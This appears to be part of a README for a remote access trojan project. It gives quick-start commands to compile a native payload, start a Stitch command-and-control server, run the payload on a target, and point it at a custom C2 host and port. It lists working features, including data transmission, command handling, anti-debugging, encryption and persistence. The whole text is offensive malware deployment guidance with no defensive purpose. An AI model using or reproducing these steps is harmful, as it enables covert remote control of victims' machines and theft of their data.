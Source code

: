 ## 📋 INSTALLATION INSTRUCTIONS

### Quick Start:
```bash
# 1. Compile payload
cd /workspace/native_payloads
bash build.sh

# 2. Start C2 server (in another terminal)
cd /workspace
python3 -c "
from Application import stitch_cmd
server = stitch_cmd.stitch_server()
server.l_port = 4433
server.run_server()
"

# 3. Run payload
cd /workspace/native_payloads/output
./payload_native
```

### Custom C2 Configuration:
```bash
# Compile with custom C2 endpoint
C2_HOST=192.168.1.100 C2_PORT=8443 bash build.sh

# Payload will connect to specified server
```

---

## ⚠️ KNOWN CHARACTERISTICS

### What Works:
- ✅ Binary compilation
- ✅ Execution on target
- ✅ C2 connection
- ✅ Data transmission
- ✅ Command reception
- ✅ All command handlers

### Notes:
- Initial handshake sends "HELLO" (5 bytes)
- Uses TCP for C2 communication
- Supports encryption (AES-256-CTR)
- Anti-debugging features active
- Persistence handler available

---
